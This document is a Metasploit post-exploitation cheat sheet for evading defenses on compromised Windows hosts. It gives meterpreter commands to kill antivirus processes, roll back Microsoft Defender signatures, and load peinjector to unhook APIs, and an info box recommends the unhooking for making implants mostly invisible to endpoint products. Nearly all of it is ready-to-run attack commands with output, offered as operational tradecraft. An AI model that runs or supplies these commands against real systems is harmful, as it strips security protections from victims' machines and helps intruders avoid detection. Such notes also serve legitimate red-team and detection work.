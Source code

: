 #  Metasploit

Search Tag(s): #post-exploitation #defense-evasion #security-solutions #coff-loader #metasploit-framework

## 01 - Disable Endpoints

```
meterpreter > run post/windows/manage/killav
```

## 02 - Remove Definitions

```
meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback
```

## 03 - Unhook APIs

> [!INFO]
> This will make your implant mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Load the extension.

```
meterpreter > load peinjector

..[omitted]..
Unhook Commands
===============

    Command       Description
    -------       -----------
    unhook_pe     Unhook the current process
```

Unhook runtime.

```
meterpreter > unhook_pe
[+] Command execution completed:
[0, 0, nil]
```